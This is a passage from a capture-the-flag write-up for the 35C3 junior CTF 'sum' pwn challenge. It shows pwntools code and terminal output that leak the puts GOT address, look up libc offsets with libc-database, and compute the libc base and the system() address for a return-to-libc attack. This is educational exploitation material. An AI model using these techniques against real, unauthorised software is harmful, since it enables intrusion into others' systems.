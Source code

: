 ```
log.info( "PUTS: "+hex(puts) )
```
what we do is simply get the got value of puts from binary and send to binary using "get" command and it will spit its value
we receive it and print it on screen. here is script in action.

```
╭─pulkit@pulkit-ER28-0652 ~/Capture_The_Flag/C3CTFs/35c3jctf/pwn/sum_208  
╰─$ python exploit.py
[*] '/home/pulkit/Capture_The_Flag/C3CTFs/35c3jctf/pwn/sum_208/sum'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Starting local process './sum': pid 9146
[*] PUTS: 0x7fe5fe06e9c0
[*] Stopped process './sum' (pid 9146)
```

so we are able to leak the addresses, Now what do we do.
Remember we also have libc, we will use @niklasb's libc-database to find offsets to system()
here is how i did it. you could also use https://libc.blukat.me

```
╭─pulkit@pulkit-ER28-0652 ~/tools/libc-database  ‹master*› 
╰─$ ./identify libc-2.27.so 
id libc6_2.27-3ubuntu1_amd64
╭─pulkit@pulkit-ER28-0652 ~/tools/libc-database  ‹master*› 
╰─$ strings db/libc6_2.27-3ubuntu1_amd64.symbols | grep "puts "
_IO_puts 00000000000809c0
puts 00000000000809c0
fputs 000000000007f1f0
_IO_fputs 000000000007f1f0
╭─pulkit@pulkit-ER28-0652 ~/tools/libc-database  ‹master*› 
╰─$ strings db/libc6_2.27-3ubuntu1_amd64.symbols | grep "system "
__libc_system 000000000004f440
system 000000000004f440
╭─pulkit@pulkit-ER28-0652 ~/tools/libc-database  ‹master*›
╰─$ 
```

now we can calculate libc_base address by subtracting puts offset from libc from leaked puts address.

```
.....
.....
#libc offsets

offset_system = 0x04f440
offset_puts = 0x000809c0

libc_base = puts - offset_puts
log.info("LIBC BASE: "+hex(libc_base))

system = libc_base + offset_system
......
......
```
